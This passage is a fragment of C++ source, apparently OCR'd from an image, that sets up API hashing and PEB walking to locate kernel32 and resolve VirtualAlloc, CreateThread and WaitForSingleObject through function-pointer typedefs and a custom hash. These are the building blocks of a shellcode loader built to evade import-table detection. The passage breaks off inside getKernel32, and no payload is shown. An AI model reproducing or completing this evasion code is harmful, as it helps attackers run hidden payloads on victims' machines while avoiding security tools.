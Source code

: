 ```cpp
  HMODULE base;
  void* entry;
  UINT size;
  UNICODE_STRING dllPath;
  UNICODE_STRING dllname;
};

typedef HMODULE(WINAPI *fnGetModuleHandleA)(
  LPCSTR lpModuleName
);

typedef FARPROC(WINAPI *fnGetProcAddress)(
  HMODULE hModule,
  LPCSTR  lpProcName
);

typedef PVOID(WINAPI *fnVirtualAlloc)(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);

typedef PVOID(WINAPI *fnCreateThread)(
  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  SIZE_T                  dwStackSize,
  LPTHREAD_START_ROUTINE  lpStartAddress,
  LPVOID                  lpParameter,
  DWORD                   dwCreationFlags,
  LPDWORD                 lpThreadId
);

typedef PVOID(WINAPI *fnWaitForSingleObject)(
  HANDLE hHandle,
  DWORD  dwMilliseconds
);

DWORD calcMyHash(char* data) {
  DWORD hash = 0x35;
  for (int i = 0; i < strlen(data); i++) {
    hash += data[i] + (hash << 1);
  }
  return hash;
}

static DWORD calcMyHashBase(LDR_MODULE* mdll) {
  char name[64];
  size_t i = 0;

  while (mdll->dllname.Buffer[i] && i < sizeof(name) - 1) {
    name[i] = (char)mdll->dllname.Buffer[i];
    i++;
  }
  name[i] = 0;
  return calcMyHash((char *)CharLowerA(name));
}

static HMODULE getKernel32(DWORD myHash) {
  HMODULE kernel32;
  INT_PTR peb = __readgsqword(0x60);
  auto modList = 0x18;
  auto modListFlink = 0x18;
  auto kernelBaseAddr = 0x10;
```